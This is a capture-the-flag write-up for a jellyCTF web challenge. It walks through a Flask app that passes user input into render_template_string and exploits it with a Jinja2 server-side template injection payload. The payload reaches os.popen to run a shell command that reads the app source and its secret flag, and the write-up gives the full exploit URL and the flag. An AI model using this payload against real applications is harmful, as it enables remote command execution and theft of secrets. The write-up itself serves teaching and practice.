 # bro_visited_his_site
Point count: 100pts

Difficulty: easy

Provided files: bro_visited_his_site.zip

Url: https://bro-visited-his-site.jellyc.tf/

Description: bro stored his secrets in the flask app config
# 

Upon visiting the website, it seems like we type anything in this box and it just reflects what we put in the box.

Seeing this, I immediately thought that our input might not be sanitized properly, so I took a look at the source code.

```
#!/usr/bin/env python3
from flask import Flask, request, render_template_string, send_from_directory

app = Flask(__name__)
app.config["FLAG"] = "jellyCTF{redacted}"

@app.route("/")
def index():
    return """
        <img src="/static/bro.jpg" />
        <form action="/response" method="get">
            <textarea cols="50" name="word"></textarea>
            <input type="submit" value="go">
        </form>
    """

@app.route("/response")
def response():
    word = request.args.get("word", "")

    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
    ''')

@app.route('/static/<path:path>')
def send_static(path):
    return send_from_directory('static', path)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8081, debug=True)
```

Yup! We see that in the response route, specifically in the way it uses render_template_string to render the user input, the users input is put directly into the template without proper sanitization. This makes the website vulnerable to `Server-Side Template Injection (SSTI)`

Once knowing this, I used hacktricks SSTI Jinja 2 SSTI payloads (because we know the website is running with flask) and kept trying payloads until one worked.

This one worked!

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat bros_site.py").read()}}{%endif%}{% endfor %}`

*Note: `bros_site.py`, as mentioned above, contains the secret in the flask config, hence why we need to read it*

Once injected into the `word` parameter, we get this:

![image](https://github.com/sa1181405/pbchocolate-private-writeups/assets/170969470/0921d7e0-7d2f-4d90-a830-4cf1e095102d)

And there it is! Our flag!

Final flag: `jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`

Final payload: `https://bro-visited-his-site.jellyc.tf/response?word={% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat bros_site.py").read()}}{%endif%}{% endfor %}`

